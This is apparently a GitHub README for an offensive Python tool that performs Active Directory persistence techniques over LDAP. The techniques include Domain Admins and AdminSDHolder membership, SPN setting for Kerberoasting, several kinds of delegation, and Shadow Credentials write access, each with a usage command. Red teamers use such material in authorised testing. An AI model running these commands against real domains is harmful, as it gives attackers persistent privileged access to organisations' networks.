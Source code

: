 # LDAP Persistence
Python tool to execute several AD persistence techniques through LDAP queries.

## Features

- Add user to Domain Admins Group
- Add user to AdminSDHolder
- Add SPN to user for later Kerberoasting
- Add Unconstrained Delegation to Computer
- Add Server (Un)Trust Account
- Add write access to msDS-KeyCredentialLink for the target computer (Shadow Credentials attack)
- Add Constrained Delegation to Computer
- Add Resource-Based Contrained Delegation to Computer

## Usage

### Add user to Domain Admins Group:

```
python3 ldappersistence.py <HOST> -a 0 -t targetUser
```

### Add user to AdminSDHolder

```
python3 ldappersistence.py <HOST> -a 1 -t targetUser 
```

### Add SPN to user for later Kerberoasting

```
python3 ldappersistence.py <HOST> -a 2 -t targetUser -spn example.local/test.example.local
```

### Add Unconstrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -a 3 -t targetComputer
```

### Add Server (Un)Trust Account

```
python3 ldappersistence.py <HOST> -a 4 -t targetComputer
```

### Add write access to msDS-KeyCredentialLink for the target Computer (Shadow Credentials attack)

Keep in mind that in order to exploit the Shadow Credentials attack you need the following requirements:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

```
python3 ldappersistence.py <HOST> -a 5 -t targetComputer
```

### Add Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -a 6 -t targetComputer -spn cifs/test.example.local
```

### Add Resource-Based Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -a 7 -t targetComputer -computer example-pc
```

## References

AdminSDHolder - https://adsecurity.org/?p=1906

Add SPN to user for later kerberoasting - https://adsecurity.org/?p=3466

Shadow Credentials - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials

Unconstrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation

Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

Resource-Based Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Add Server (Un)Trust Account - https://stealthbits.com/blog/server-untrust-account/
